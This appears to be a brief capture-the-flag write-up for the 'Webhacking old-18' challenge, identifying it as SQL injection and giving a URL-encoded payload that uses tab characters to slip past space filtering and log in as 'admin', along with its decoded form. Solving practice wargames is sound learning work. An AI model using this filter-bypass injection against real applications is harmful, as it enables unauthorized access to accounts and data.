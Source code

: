 # Webhacking old-18 Solution

this challange is SQL injection.
this is the payload: `2%09or%09id%09LIKE%09%27admin%27%09--%09`

if we'll URL-decode this, we'll get this:
`2	or	id	LIKE	'admin'	--`